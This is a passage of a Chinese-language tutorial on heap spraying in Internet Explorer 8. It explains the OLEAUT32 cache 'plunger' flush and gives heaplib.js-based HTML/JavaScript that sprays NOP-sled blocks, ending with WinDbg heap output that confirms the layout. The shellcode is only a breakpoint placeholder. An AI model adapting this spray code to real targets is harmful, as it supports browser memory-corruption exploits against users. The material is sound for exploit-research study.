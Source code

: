 我们需要保证每次分配内存都由系统堆处理，而不是缓存，通过缓存申请的堆空间可能在堆里的任何地方，所以预测的地址会变得不可靠，由于每个bin只能容纳6块，Alexander Sotirov提出了plunger技术，在堆喷前强制刷新所有缓存块，具体就是为每个bin申请其可容纳的最大堆块大小的内存，保证了所有缓存都是空的，接下来的分配都会由系统堆处理。<br>

为了实现精准的堆喷，在IE8下我使用了[heaplib.js](http://pwdme.cc/heaplib.js)这个JavaScript的堆管理库，Alexander Sotirov在[Heap Feng Shui in JavaScript](http://pwdme.cc/Heap_Feng_Shui_in_JavaScript.pdf)这篇文章中描述并实现了heaplib.js库。

heaplib中对于plunger的实现:



```
heapLib.ie.prototype.flushOleaut32 = function() `{`
    this.debug("Flushing the OLEAUT32 cache");
    // Free the maximum size blocks and push out all smaller blocks
    this.freeOleaut32("oleaut32");
    
    // Allocate the maximum sized blocks again, emptying the cache
    for (var i = 0; i &lt; 6; i++) `{`
        this.allocOleaut32(32, "oleaut32");
        this.allocOleaut32(64, "oleaut32");
        this.allocOleaut32(256, "oleaut32");
        this.allocOleaut32(32768, "oleaut32");
    `}`
`}`
```

IE8下的脚本，需要包含heaplib.js，还有注意在IE8中不能把html文件直接拖到IE中，最好搭建本地服务器访问，可以把heaplib.js直接粘到下面文件的前面:



```
&lt;html&gt;
&lt;script language='javascript'&gt;
var heap_obj = new heapLib.ie(0x10000);
var code = unescape("%ucccc%ucccc");    //Code to execute
var nops = unescape("%u9090%u9090");    //NOPs
while (nops.length &lt; 0x1000) nops+= nops; // create big block of nops
var shellcode =  nops.substring(0,0x800 - code.length) + code;
while (shellcode.length &lt; 0x40000) shellcode += shellcode;
var block = shellcode.substring(2, 0x40000 - 0x21);
//spray
for (var i=0; i &lt; 500; i++) `{`
    heap_obj.alloc(block);
`}`
document.write("Spray done");
// Can't directly drag into iexplore
&lt;/script&gt;
&lt;/html&gt;
```

查看分配的内存:



```
0:016&gt; !heap -flt s 7ffc0
    _HEAP @ 140000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        037c0018 fff8 0000  [0b]   037c0020    7ffc0 - (busy VirtualAlloc)
        03850018 fff8 fff8  [0b]   03850020    7ffc0 - (busy VirtualAlloc)
        038e0018 fff8 fff8  [0b]   038e0020    7ffc0 - (busy VirtualAlloc)
        03970018 fff8 fff8  [0b]   03970020    7ffc0 - (busy VirtualAlloc)
        03a00018 fff8 fff8  [0b]   03a00020    7ffc0 - (busy VirtualAlloc)
        03a90018 fff8 fff8  [0b]   03a90020    7ffc0 - (busy VirtualAlloc)
        03b20018 fff8 fff8  [0b]   03b20020    7ffc0 - (busy VirtualAlloc)
        03bb0018 fff8 fff8  [0b]   03bb0020    7ffc0 - (busy VirtualAlloc)
...
...
        0bfe0018 fff8 fff8  [0b]   0bfe0020    7ffc0 - (busy VirtualAlloc)
        0c070018 fff8 fff8  [0b]   0c070020    7ffc0 - (busy VirtualAlloc)
```